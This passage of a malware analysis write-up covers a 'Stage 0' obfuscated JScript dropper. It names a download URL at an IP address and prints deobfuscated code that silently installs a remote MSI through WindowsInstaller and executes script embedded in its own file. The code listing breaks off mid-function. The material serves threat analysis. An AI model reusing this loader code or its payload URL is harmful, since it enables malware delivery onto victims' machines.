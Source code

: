 Stage 0 is appearing as an obfuscated JS file `<filename>.js` which contains the code that attempts to download an MSI package from a specified URL `http://45.95.11.217/ad.msi`. After downloading the MSI package, the JS file is using the `ActiveXObject` to iternact with Windows Installer and installs the product using the `InstallProduct()` method. 

The variable `a` employs an Immediately Invoked Function Expression (IIFE), encapsulating a function designed to locate and execute a script embedded within the current script file `WScript.ScriptFullName`. It utilizes the `Scripting.FileSystemObject` to navigate the file system, particularly for reading the lines of the script file. Within this context, the `e()` function iterates through the script file, identifying and extracting embedded script content, storing it in `d`. Subsequently, the `h()` function attempts to execute the extracted script content, provided it's not empty. The resulting object includes a method `j`, intended to orchestrate the entire process of discovering and executing the embedded script.

The `a.j()` invocation initiates the execution sequence by calling the `j` method of the `a` object. This method, in turn, endeavors to execute the embedded script discovered within the current script file.

```js
function installFromURL() {
        var installer;
        var msiPath;
        try {
            installer = new ActiveXObject("WindowsInstaller.Installer");
            installer.UILevel = 2;
            msiPath = "http://<snip>/<filename>.msi";
            installer.InstallProduct(msiPath);
        } catch (e) {
            WScript.Echo("failed: " + e.message);
        }
    }
    installFromURL();
    
    var a = (function() {
        var b = new ActiveXObject("Scripting.FileSystemObject"),
            c = WScript.ScriptFullName,
            d = "";
    
        function e() {
            if (!b.FileExists(c)) return;
    
            var f = b.OpenTextFile(c, 1);
            while (!f.AtEndOfStream) {
                var g = f.ReadLine();
                if (g.slice(0, 4) === "") d += g.substr(4) + "\n";
            }
            f.Close();
        }
    
        function h() {
            if (d !== "") {
                var i = new Function(d);
                i();
            }
        }
 
        return {
            j: function() {
                try {
                    e();
                    h();
                } catch (k) {}
    
            }
    
```